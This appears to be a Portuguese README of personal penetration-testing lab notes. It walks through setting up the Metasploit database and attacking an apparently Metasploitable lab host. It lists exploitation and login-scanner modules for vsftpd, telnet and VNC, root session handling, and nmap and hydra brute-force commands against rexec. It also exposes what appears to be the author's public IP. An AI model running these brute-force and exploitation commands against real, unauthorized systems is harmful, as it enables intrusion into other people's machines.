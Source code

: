 
# Conectando no Banco de Dados (Parte mais chata)

```bash
sudo apt install postgresql postgresql-contrib &&
sudo service postgresql start

msfdb init
```

## Dentro do MSFCONSOLE

```bash
msfconsole
db_connect msf:msf@127.0.0.1:5432/msf
```

---

## Criando Workspace desse Computador

![Criando Workspace](https://github.com/user-attachments/assets/c79ab59f-974d-4781-bb66-693c1e4cff30)

## Serviços

![Serviços](https://github.com/user-attachments/assets/e2602863-3e4e-426a-a54a-eca74d17c896)

## Informações de Host

![Informações de Host](https://github.com/user-attachments/assets/121e0dc0-f0ed-43af-81b0-7d5af6a9aaee)

## Procurando Diretórios Escondidos

![Diretórios Escondidos](https://github.com/user-attachments/assets/f4ec5416-ea24-4f5a-8234-1894a40596b9)

## Aprofundando

![Profundando 1](https://github.com/user-attachments/assets/6bbef33f-f8f6-4ff4-aed0-ec8f4a0920d0)
![Profundando 2](https://github.com/user-attachments/assets/fdf0e3c5-cae1-4044-a42e-541c8ab3ced3)

---

## Depois de conseguir acesso como root usando o payload:

```bash
CTRL + Z
Y

sessions        # Ver sessões ativas
sessions -i 2   # Acessar a sessão 2
```

![Sessão](https://github.com/user-attachments/assets/e4c0a2cc-9ec0-4e06-9f0f-3e3448ace42d)

---

## Dados de IPs

```text
Meu IP:     177.67.136.88
IP Kali:    172.24.49.254
IP Meta:    192.168.100.102
```

## PAYLOADs

```text
cmd/unix/interact               => vsft 3.2.4
auxiliary/scanner/telnet_login => Telnet porta 23
scanner/vnc/vnc_login          => VNC (usar depois com: vncviewer 192.168.100.102:5900 :password)
```

## Força Bruta com Nmap e Hydra

```bash
nmap -p 512 --script rexec-brute -v 192.168.100.102

# Depois:
hydra -L /home/luan/Desktop/porta_512_logins/usuarios_512.txt \
      -P /home/luan/Desktop/porta_512_logins/passwd_512.txt \
      -vV 192.168.100.102 rexec
```
